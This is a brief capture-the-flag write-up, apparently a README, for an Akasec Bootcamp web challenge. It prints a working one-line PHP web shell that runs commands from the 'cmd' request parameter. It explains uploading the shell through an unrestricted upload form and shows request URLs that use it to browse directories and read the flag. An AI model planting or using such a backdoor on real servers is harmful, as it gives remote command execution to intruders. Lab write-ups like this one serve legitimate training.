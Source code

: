 # Akasec Bootcamp : Gallery in the Cloud (web challenge)

## The Website : 
![Alt text](./pictures/website.png)

#### When I saw the website, I thought about file upload vulnerability.

# Step 1: I create a simple Backdoor with php > backdoor.php : 
``` 
    <?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?> 
```
#### Then I uploaded it, and it told me that my file was named 6785bg54g34.php. Haha, lol, just guessing—I forgot about it 

# Step 2: I get the path of my uploaded file, then call ?cmd= with the parameter "ls", and it responds to me with current directory content

# Step 3 : get the flag , hihihi hackkkerr : 
```
    http://172.174.238.89:8083/uploads/67abc49677d12.php?cmd=cd%20../../../../;cd%20flag;ls
```
# 1
![Alt text](./pictures/path.png)

# 2
```
http://172.174.238.89:8083/uploads/67abc49677d12.php?cmd=cd%20../../../../;cd%20flag;cat%20flag.txt
```

![Alt text](./pictures/flag.png)
